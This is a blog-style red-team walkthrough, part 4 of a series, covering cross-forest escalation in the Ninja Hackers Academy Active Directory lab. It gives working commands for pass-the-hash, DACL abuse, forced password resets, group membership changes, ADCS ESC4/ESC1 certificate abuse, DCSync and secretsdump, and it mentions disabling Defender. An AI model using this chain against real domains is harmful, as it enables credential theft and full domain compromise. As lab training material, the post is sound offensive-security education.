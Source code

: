 ```yaml
---
title: "AD Pwnage: Ninja Hackers Academy Part 4"
author:
  name: crypt0ace
  link: https://twitter.com/crypt0acee
date: 2024-03-30
description: "Hacking into NHA - AD based Lab Red Team way."
tags: [Red Team]
---
```


## Introduction
At this point, we have the domain. But we need to find any trust relationships that this domain has and if any, we need to move to that domain.

## Enumerating Trusts
We can check the trust relationships of the domain by using `ldeep`.

```bash
ldeep ldap -u Administrator -H 8fd12ffe951b45af5bea2bd921accba4:8fd12ffe951b45af5bea2bd921accba4 -d 192.168.58.20 -s ldap://192.18.58.20 trusts
```

![LDEEP](/assets/img/NHA/ldeep.png)

We have a Bi-Directional, FOREST_TRANSITIVE trust relationship with the domain `ninja.hack`. To learn more about trust and relations [this](https://www.thehacker.recipes/a-d/movement/trusts) and [this](https://mayfly277.github.io/posts/GOADv2-pwning-part12/) are the two personally recommended posts.
So because this is a bi-directional trust, we are able to enumerate the objects in the other domain. We can get a havoc demon on the DC of academy domain and use `SharpHound.exe`.

```bash
dotnet inline-execute /opt/SharpCollection/NetFramework_4.7_Any/SharpHound.exe -c all -d ninja.hack --ldapusername backup --ldappassword 'Password123!'
```

If for some reason this is not working, you can use the same command in the WinRM session after turning Defender off. One other way to do it is to turn RDP on over the DC and then use command prompt to run `SharpHound.exe`. We can then enumerate the `ninja.hack` domain using the bidirectional trust that we saw earlier.
After looking a little, I can see that user `olivia` and a user `frank` exist in both the domains.

![Same Users in Ninja Domain](/assets/img/NHA/ninja_same_users.png)



## ACLs to Rachel.Philips

We already have dumped hashes. We can try those hashes against these users to see if they work (Some of you might have made good notes unlike me to see that this also hints in the contact page of the original web page.).

![Same Users in Ninja Domain](/assets/img/NHA/olivia_davis_hash.png)


So we have a user in the ninja domain. perfect. If we look in bloodhound to her first degree object control, we can see that this user has `WriteDACL` permission over the user `rachel.philips`. We can use `this` to get to that user.

```bash
dacledit.py -action 'read' -principal olivia.davis -target 'rachel.philips' 'ninja.hack'/'olivia.davis' -hashes aad3b435b51404eeaad3b435b51404ee:91d85135bb2c4e12c46efbb77612c487

dacledit.py -action 'write' -rights 'FullControl' -target 'rachel.philips' 'ninja.hack'/'olivia.davis' -hashes aad3b435b51404eeaad3b435b51404ee:91d85135bb2c4e12c46efbb77612c487
```


![FullControl to Olivia](/assets/img/NHA/dacl_edit_olivia.png)


We were able to successfully change the access to `FullControl` to the user `rachel.philips`. Now we can change this user's password to access it. We cant use shadow credentials to get the hash for this user as done [here](https://mayfly277.github.io/posts/GOADv2-pwning-part11/#writedacl-on-user-joffrey---tyron) because we get `KDC_ERR_PADATA_TYPE_NOSUPP` error meaning ther DC is not set for PKINIT authentication. We can use `bloodyAD` for it as seen [here](https://www.thehacker.recipes/a-d/movement/dacl/forcechangepassword).


```bash
bloodyAD --host 192.168.58.10 -d ninja.hack -u olivia.davis -p :91d85135bb2c4e12c46efbb77612c487 set password rachel.philips 'Password123!'
```



![Password Change Rachel](/assets/img/NHA/rachel_pass.png)



## Path to JONIN Group

Looking back to BloodHound, I can see Group Delegated Object Control that I can use this user to the `jonin` group.


![Path to Jonin](/assets/img/NHA/path_to_jonin.png)



```bash
bloodyAD --host 192.168.58.10 -d ninja.hack -u rachel.philips -p 'Password123!' add groupMember jonin rachel.philips
```

We can confirm this using this.

```bash
ldeep ldap -u rachel.philips -p 'Password123!' -d ninja.hack -s ldap://192.168.58.10 membersof 'JONIN'
```



![JONIN members](/assets/img/NHA/jonin_members.png)



## Certificate Abuse

After poking around a lot and not finding anything, I started looking into the ADCS misconfigurations.


![ADCS](/assets/img/NHA/adcs_netexec.png)


We can use this to query and find the vulnerable template details.



```bash
certipy find -u 'rachel.philips@ninja.hack' -p 'Password123!' -dc-ip 192.168.58.10 -vulnerable -stdout
```


We can see that it specifies that `JONIN` has dangerous rights and its vulnerable to ECS4.



![ECS4](/assets/img/NHA/ecs4.png)


As said by [lummelsec](https://www.twitter.com/theluemmel) on [this](https://luemmelsec.github.io/Skidaddle-Skideldi-I-just-pwnd-your-PKI/#esc4) post, we can use this command to make this certificate vulnerable to ECS1.

```bash
certipy template -u 'rachel.philips@ninja.hack' -p 'Password123!' -target 'ninja.hack' -template 'SignatureValidation'
```




![Updating](/assets/img/NHA/update_ecs4.png)
![ECS1](/assets/img/NHA/ecs1.png)




We can use this to get a certificate file.

```bash
certipy req -u 'rachel.philips@ninja.hack' -p 'Password123!' -target 'dc-vil.ninja.hack' -ca 'NINJA-CA' -template 'SignatureValidation' -upn 'Administrator@ninja.hack'
```


Next we can use these command to grant DCSync privileges to `rachel.philips` and dump secrets of the `ninja.hack` domain.

```bash
certipy cert -pfx "administrator.pfx" -nokey -out "user.crt"
certipy cert -pfx "administrator.pfx" -nocert -out "user.key"

passthecert.py -action modify_user -crt "user.crt" -key "user.key" -domain "ninja.hack" -dc-ip 192.168.58.10 -target "rachel.philips" -elevate

secretsdump.py -just-dc ninja.hack/rachel.philips:'Password123!'@ninja.hack
```


![NINJA Secrets](/assets/img/NHA/ninja_secrets.png)


And we can get the last flag as well (yes theres flags in this. i forgot to mention that in the previous posts. maybe the reader can try getting them all ;). )


![NINJA Last Flag](/assets/img/NHA/last_flag.png)


Aaaand thats it!! We have successfully gone through the whole NHA labs. Special thanks to the amazing creator [MayFly](https://twitter.com/M4yFly) who created them. As of writing this, he also introduced some new SCCM labs which I may or maynot be looking into next. This lab and SCCM and GOAD can be found [here](https://github.com/Orange-Cyberdefense/GOAD). Do give it a try to make AD methodology better. There will be a last post about blue team side of things. As always let me know if help is needed at any point. You know where to find me.